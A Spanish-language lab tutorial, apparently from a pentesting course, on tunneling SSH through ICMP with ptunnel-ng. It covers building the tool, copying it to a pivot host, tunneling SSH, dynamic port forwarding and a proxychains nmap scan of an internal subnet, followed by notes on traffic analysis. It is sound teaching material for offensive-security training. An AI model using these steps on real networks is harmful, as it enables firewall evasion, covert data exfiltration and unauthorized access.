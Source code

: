 ICMP tunneling encapsula tu tráfico dentro de `ICMP packets` que contienen `echo requests` y `responses`. ICMP tunneling solo funcionará cuando las respuestas de ping estén permitidas dentro de una red con firewall. Cuando a un host dentro de una red con firewall se le permite hacer ping a un servidor externo, puede encapsular su tráfico dentro del ping echo request y enviarlo a un servidor externo. El servidor externo puede validar este tráfico y enviar una respuesta adecuada, lo cual es extremadamente útil para la exfiltración de datos y la creación de túneles de pivot a un servidor externo.

Usaremos la herramienta [ptunnel-ng](https://github.com/utoni/ptunnel-ng) para crear un túnel entre nuestro servidor Ubuntu y nuestro host de ataque. Una vez creado el túnel, podremos hacer proxy de nuestro tráfico a través del `ptunnel-ng client`. Podemos iniciar el `ptunnel-ng server` en el host de pivote objetivo. Comencemos configurando ptunnel-ng.

---

## Setting Up & Using ptunnel-ng

Si ptunnel-ng no está en nuestro host de ataque, podemos clonar el proyecto usando git.

### Cloning Ptunnel-ng

```r
git clone https://github.com/utoni/ptunnel-ng.git
```

Una vez clonado el repositorio de ptunnel-ng en nuestro host de ataque, podemos ejecutar el script `autogen.sh` ubicado en la raíz del directorio ptunnel-ng.

### Building Ptunnel-ng with Autogen.sh

```r
sudo ./autogen.sh 
```

Después de ejecutar autogen.sh, ptunnel-ng puede usarse tanto del lado del cliente como del servidor. Ahora necesitaremos transferir el repositorio desde nuestro host de ataque al host objetivo. Como en secciones anteriores, podemos usar SCP para transferir los archivos. Si queremos transferir todo el repositorio y los archivos contenidos dentro, necesitaremos usar la opción `-r` con SCP.

### Transferring Ptunnel-ng to the Pivot Host

```r
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

Con ptunnel-ng en el host objetivo, podemos iniciar el lado del servidor del túnel ICMP usando el comando directamente a continuación.

### Starting the ptunnel-ng Server on the Target Host

```r
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

La dirección IP que sigue a `-r` debe ser la IP en la que queremos que ptunnel-ng acepte conexiones. En este caso, la IP que sea alcanzable desde nuestro host de ataque sería la que usaríamos. Nos beneficiaría usar este mismo pensamiento y consideración durante un engagement real.

De vuelta en el host de ataque, podemos intentar conectarnos al servidor ptunnel-ng (`-p <ipAddressofTarget>`) pero asegurándonos de que esto suceda a través del puerto local 2222 (`-l2222`). Conectarse a través del puerto local 2222 nos permite enviar tráfico a través del túnel ICMP.

### Connecting to ptunnel-ng Server from Attack Host

```r
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

Con el túnel ICMP de ptunnel-ng establecido con éxito, podemos intentar conectarnos al objetivo usando SSH a través del puerto local 2222 (`-p2222`).

### Tunneling an SSH connection through an ICMP Tunnel

```r
ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```

Si se configura correctamente, podremos ingresar credenciales y tener una sesión SSH a través del túnel ICMP.

En el lado del cliente y del servidor de la conexión, notaremos que ptunnel-ng nos proporciona registros de sesión y estadísticas de tráfico asociadas con el tráfico que pasa a través del túnel ICMP. Esta es una forma de confirmar que nuestro tráfico está pasando del cliente al servidor utilizando ICMP.

### Viewing Tunnel Traffic Statistics

```r
[inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

También podemos usar este túnel y SSH para realizar `dynamic port forwarding` y permitirnos usar proxychains de varias maneras.

### Enabling Dynamic Port Forwarding over SSH

```r
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

Podríamos usar proxychains con Nmap para escanear objetivos en la red interna (172.16.5.x). Según nuestros descubrimientos, podemos intentar conectarnos al objetivo.

### Proxychaining through the ICMP Tunnel

```r
proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

---

## Network Traffic Analysis Considerations

Es importante que confirmemos que las herramientas que estamos usando están funcionando como se espera y que las hemos configurado y estamos operando correctamente. En el caso de tunelizar tráfico a través de diferentes protocolos enseñados en esta sección con ICMP tunneling, podemos beneficiarnos de analizar el tráfico que generamos con un analizador de paquetes como `Wireshark`. Observa detenidamente el clip corto a continuación.

![](https://academy.hackthebox.com/storage/modules/158/analyzingTheTraffic.gif)

En la primera parte de este clip, se establece una conexión a través de SSH sin usar ICMP tunneling. Podemos notar que se captura tráfico `TCP` y `SSHv2`.

El comando usado en el clip: `ssh ubuntu@10.129.202.64`

En la segunda parte de este clip, se establece una conexión a través de SSH usando ICMP tunneling. Nota el tipo de tráfico que se captura cuando esto se realiza.

Comando usado en el clip: `ssh -p2222 -lubuntu 127.0.0.1`

---

**Note**: Cuando inicies tu objetivo, te pedimos que esperes de 3 a 5 minutos hasta que todo el laboratorio con todas las configuraciones esté configurado para que la conexión a tu objetivo funcione sin problemas.

**Note**: Considera las versiones de GLIBC, asegúrate de estar al nivel de la que está en el objetivo.